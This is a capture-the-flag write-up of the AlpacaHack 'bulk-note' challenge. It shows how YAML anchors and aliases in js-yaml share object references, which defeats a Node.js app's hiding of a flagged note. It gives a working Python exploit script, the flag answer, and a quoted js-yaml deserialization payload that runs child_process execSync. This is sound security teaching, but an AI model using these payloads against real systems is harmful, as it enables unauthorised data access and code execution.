




*[link to the challenge if you wanna give it a try](https://alpacahack.com/challenges/bulk-note)*

## Unnecessary rambling (skip if not interested)

After solving my first challenge on AlpacaHack, I felt excited to try more challenges from the same author—I wanna get to know authors by consuming every challenge they make :). I did a lot of client-side stuff over the past month, so I decided to solve some server-side ones for a change. This challenge really taught me a lot!

## Challenge description



The challenge is a simple note-taking application with a POST endpoint that takes a YAML file in the body of the request and either:

1. creates a note and issues an ID, or
2. gets a note using its ID.

The notes are stored in a global Map:

```js
const notes = new Map();

```

And note creation is handled as follows:

```js
function handleCreateCommand(doc, index, sessionId) {
  const content = doc.content;
  if (typeof content !== "string") {
    return [null, { error: "invalid content", index }];
  }

  const id = randomUUID();
  doc.sessionId = sessionId;
  if (doc.isHidden) {
    doc.content = FLAG;
    delete doc.sessionId;
    delete doc.isHidden;
  }
  notes.set(id, doc);

  return [
    {
      command: "create",
      id,
    },
    null,
  ];
}

```

where `doc` is the parsed YAML using a recent version of [js-yaml](https://github.com/nodeca/js-yaml):

```js
// returns array of yaml docs after which the challenge code loops through each and performs create/get on it
parsedDocs = load(req.body || "");

```

As you can see above, if `isHidden` is set, the content of the `doc` is set to FLAG, and both the `sessionId` and `isHidden` properties get deleted. This effectively makes the note inaccessible due to how the GET handler acts:

```js
function handleGetCommand(doc, index, sessionId) {
  const id = doc.id;
  if (typeof id !== "string") {
    return [null, { error: "invalid id", index }];
  }

  const note = notes.get(id);
  if (!note || !note.sessionId || note.sessionId !== sessionId) {
    return [null, { error: "not found", index }];
  }

  return [
    {
      command: "get",
      id,
      content: note.content,
    },
    null,
  ];
}

```

The author of the challenge assumes `note.sessionId` will always be undefined/null, thus making the FLAG note inaccessible to the user.

## Issues and difficulties

Because the challenge falls under the *YAML topic*, I looked up some YAML exploits and read [Jorian's](https://book.jorianwoltjer.com/languages/yaml) blog about a YAML feature that enables the execution of host functions (in our case, JavaScript functions) upon deserialization. Jorian talked about YAML tags, which are ways you can explicitly tell the parser to treat a given value in special ways. Most notably:

```yaml
"toString": !<tag:yaml.org,2002:js/function> "function (){console.log(process.mainModule.require('child_process').execSync('id').toString())}"

```

This was a payload that used the `js/function` tag to define a function to be called instead of `toString` found in the prototype chain.

Naturally, I tried the payload, but it didn't work. When I debugged the problem, I found that tags have to be defined in a schema, and unfortunately for us, no `js/function` tag exists in js-yaml's `DEFAULT_SCHEMA`.



---

At this point, I shifted from trying to abuse the YAML deserialization process and moved to thinking of ways to defy the `delete` keyword. [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/delete) showed me this:



`delete` only has an effect on own properties, so if we can make something like this happen:

```json
{
    "foo": "bar",
    "__proto__": {
        "sessionId": "baz"
    }
}

```

we can bypass the deletion process and still access our property at GET time. Unfortunately, this version of js-yaml is already patched and treats `__proto__` as a data property.

> It would be interesting to have the deserialization of js-yaml's `__proto__` be fed to an `Object.assign(...)` or something similar. I'm keeping this one as a challenge idea.



### Rabbithole

I spent a LOT of time at this step. I kept looking for JS tricks to bypass strict equality (stupid me, lol). I even suspected that the cookie parser had something to do with the challenge and ended up finding JSON Cookies, which is a way to define a cookie object instead of a string. All of these, of course, were futile attempts to solve the challenge.

The main struggle I was facing was disorientation. I was thinking excessively about the tools I had (YAML features, JS tricks, etc.), but not enough about the invariants in the challenge. Let's consider something again:

The developer assumes that once a note is created, it's effectively hidden. It's hidden because no `sessionId` is set on it. Can we somehow set the `sessionId` even after deletion?

### Object references

It turns out there IS a way to re-add the `sessionId` after deletion, and that is by using YAML tags:

* YAML allows you to create an anchor by adding an `&` and a name in front of a value. You can then later reference that value with an alias: an `*` followed by the name.

Meaning, something like:

```yaml
- &a
  sessionId: foo
- *a

```

would result in:

```js
[ { sessionId: 'foo' }, { sessionId: 'foo' } ]

```

The question then becomes: do these objects point to the same memory reference?

It turns out they do:

```js
> doc
[ { sessionId: 'foo' }, { sessionId: 'foo' } ]
> delete doc[0].sessionId
true
> doc
[ {}, {} ]

```

## Solution

To solve the challenge, we can abuse the shared reference as follows:

1. First, create a hidden note and tag it in YAML.
2. Second, perform another create operation that sets the `sessionId`:

```js
doc.sessionId = sessionId;

```

This skips the `isHidden` check (already deleted from the first run):

```js
if (doc.isHidden) { // condition skipped, no deletion :)
  doc.content = FLAG;
  delete doc.sessionId;
  delete doc.isHidden;
}

```

We can then use one of the given IDs (it doesn't matter which we choose because it's the same reference!) to fetch the flag. Everything can be scripted as follows:

### `solve.py`

```py
#!/usr/bin/env python3

import requests

url = 'http://localhost:3000/'
# url = 'http://34.170.146.252:31918'
payload = '''
- &a
  command: create
  content: ""
  isHidden: true
- *a
'''

session = requests.Session()

resp = session.post(url, data=payload, headers={'Content-Type': 'text/plain'})
session.get(url, data=payload, headers={'Content-Type': 'text/plain'})
response_data = resp.json()

sid = resp.cookies.get('sid')

target_id = response_data['results'][0]['id']

get_payload = f'''
- command: get
  id: "{target_id}"
'''

get_resp = session.post(
    url,
    data=get_payload,
    headers={'Content-Type': 'text/plain'}
)

print("\nFollow-up GET Command Response:")
try:
    print(get_resp.json())
except requests.exceptions.JSONDecodeError:
    print(get_resp.text)

```

And just like that, the flag is: `Alpaca{y4ml_1snt_bett3r_JS0N}`

## Key takeaways

* **YAML Anchors and Aliases Preserve References:** Using `&` (anchor) and `*` (alias) in YAML doesn't just duplicate data. In parsers like `js-yaml`, it creates multiple references to the *exact same object in memory*.
* **Shared State Mutation:** Because aliases point to the same memory reference, mutating the object via one reference (e.g., adding `sessionId` back on the second pass) affects all other instances. This is what ultimately allowed us to bypass the application's logic.
* **The `delete` Operator:** In JavaScript, `delete` only removes an object's *own* properties. It does not affect properties inherited from the prototype chain. While `js-yaml` correctly handles `__proto__` to prevent prototype pollution, this behavior is still a crucial JS quirk to keep in your back pocket.
* **Focus on Invariants Over Tools:** When stuck in a rabbithole, take a step back from flashy exploits (like RCE via custom tags or parsing JSON cookies) and analyze the core assumptions the developer made about the program's state.

## References

* [The YAML Document from Hell](https://ruuda.nl/2023/the-yaml-document-from-hell)
* [MDN Web Docs: `delete` operator](https://www.google.com/search?q=%5Bhttps://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/delete%5D(https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/delete))
* [YAML Specification 1.2.2: Tags](https://yaml.org/spec/1.2.2/#tags)
* [Jorian's Notes on YAML Vulnerabilities](https://book.jorianwoltjer.com/languages/yaml)
